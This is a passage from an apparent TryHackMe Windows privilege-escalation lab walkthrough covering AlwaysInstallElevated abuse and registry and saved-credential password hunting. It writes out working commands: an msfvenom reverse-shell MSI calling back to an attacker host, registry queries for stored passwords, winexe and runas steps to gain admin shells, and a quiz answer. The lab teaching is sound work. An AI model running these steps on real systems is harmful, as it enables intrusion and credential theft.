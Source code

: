 Query the registry for `AlwaysInstallElevated` keys:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Note that both keys are set to `1` (`0x1`).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi

Transfer the `reverse.msi` file to the `C:\PrivEsc` directory on Windows (use the SMB server method from earlier). Start a listener on Kali and then run the installer to trigger a reverse shell running with `SYSTEM` privileges:

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

## Passwords - Registry[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#passwords-registry "Permalink to this heading")

The registry can be searched for keys and values that contain the word “password”:

reg query HKLM /f password /t REG_SZ /s

If you want to save some time, query this specific key to find admin AutoLogon credentials:

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

On Kali, use the `winexe` command to spawn a command prompt running with the admin privileges (update the password with the one you found):

winexe -U 'admin%password' //MACHINE_IP cmd.exe

### Questions[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#id2 "Permalink to this heading")

**What was the admin password found in the registry?**

Answer: `password123`

## Passwords - Saved creds[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#passwords-saved-creds "Permalink to this heading")

List any saved credentials:

cmdkey /list

Note that credentials for the `admin` user are saved. If they aren’t, run the `C:\PrivEsc\savecred.bat` script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the `admin` user’s saved credentials:

runas /savecred /user:admin C:\PrivEsc\reverse.exe

## Passwords - Security Account Manager (SAM)[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#passwords-security-account-manager-sam "Permalink to this heading")

